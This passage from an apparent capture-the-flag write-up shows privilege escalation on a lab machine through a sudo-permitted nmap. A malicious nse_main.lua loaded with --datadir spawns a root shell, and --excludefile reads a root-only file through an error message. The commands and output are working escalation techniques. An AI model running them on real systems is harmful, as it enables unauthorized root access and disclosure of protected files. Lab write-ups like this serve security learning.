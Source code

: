 The default value is `/usr/share/nmap`:

```

zabbix@unrested:~$ ls /usr/share/nmap/
nmap.dtd           nmap-payloads   nmap-service-probes  nselib
nmap-mac-prefixes  nmap-protocols  nmap-services        nse_main.lua
nmap-os-db         nmap-rpc        nmap.xsl             scripts

```

Right away `nse_main.lua` jumps out as interesting. That’s the runs every time `nmap` runs with `-sC`. So if I create a new one and tell `nmap` that that directory is the data dir, it will load that:

```

zabbix@unrested:~$ echo 'os.execute("/bin/bash")' > /tmp/nse_main.lua
zabbix@unrested:~$ sudo /usr/bin/nmap --datadir /tmp -sC localhost   
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-01 01:25 UTC
root@unrested:/var/lib/zabbix# reset: unknown terminal type unknown
Terminal type? screen
root@unrested:/var/lib/zabbix# id
uid=0(root) gid=0(root) groups=0(root)

```

Just like above, I have to `reset` to get the terminal working, but it works! And I can read the flag:

```

root@unrested:/var/lib/zabbix# cat /root/root.txt
2111a8ca************************

```

#### Exclude File

Just like the blocked `-iL`, there’s an `--excludefile` option:

> ```

>   --excludefile exclude_file (Exclude list from file)
>       This offers the same functionality as the --exclude option, except that the excluded targets are
>       provided in a newline-, space-, or tab-delimited exclude_file rather than on the command line.
>    
>       The exclude file may contain comments that start with # and extend to the end of the line.
>
> ```

Anything that’s using a file as targets can be a file read. It works here:

```

zabbix@unrested:~$ sudo nmap --excludefile /root/root.txt localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-01 01:28 UTC
Error resolving name "2111a8ca************************": Temporary failure in name resolution

QUITTING!

```
